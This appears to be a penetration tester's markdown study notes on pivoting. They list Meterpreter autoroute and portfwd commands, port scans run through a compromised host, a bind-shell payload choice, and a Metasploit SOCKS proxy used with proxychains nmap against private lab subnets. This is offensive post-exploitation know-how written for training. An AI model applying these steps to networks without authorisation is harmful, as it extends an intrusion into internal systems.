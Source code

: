 # Pivoting

## Port Forwarding

- redirecting traffic from port on target_sys_2 to local_port of attacker_sys

## Meterpreter Commands

- ipconfig : find subnet that target_sys_1 is a part of

  ![pivot](./images/pivot-01.png)
- run autoroute -s <subnet> : adds routes
- run autoroute -p : displays active routing table

  ![pivot](./images/pivot-02.png)
- run a tcp portscan on remotehost usong msf module. forward remote port to local port and run nmap scan on local port.
- portfwd add -l 1234 -p 80 -r <target_sys_2_ip>
- portfwd list

  ![pivot](./images/pivot-03.png)

- use msf module portscan/tcp to scan victim 2
- use nmap after portfwd is setup to run -sV on local port on localhost - nmap -sV -sS -p 1234 localhost
- since target_sys_2 does not have a route back to attacker_sys, use bind_shell payload

  ![pivot](./images/pivot-04.png)
  ![pivot](./images/pivot-05.png)
￼

- here, 10.5.20.201 is our local ip and 10.5.25.138 is on remote network inaccessible from attacker machine


**ANOTHER WAY**

- once you have access to root meterpreter session
- bg meterpreter session and run the cmd - "route add 192.108.156.0/24 1"
- syntax is - "route add <cidr> <meterpreter sessionid>"
- use auxiliary/server/socks_proxy
  - set VERSION 4a
  - set SRVPORT 9050
  - run -j
- proxychains nmap -sT -P0 192.108.156.3

  ![pivot](./images/pivot-06.png)
  ![pivot](./images/pivot-07.png)
  ![pivot](./images/pivot-08.png)
  ![pivot](./images/pivot-09.png)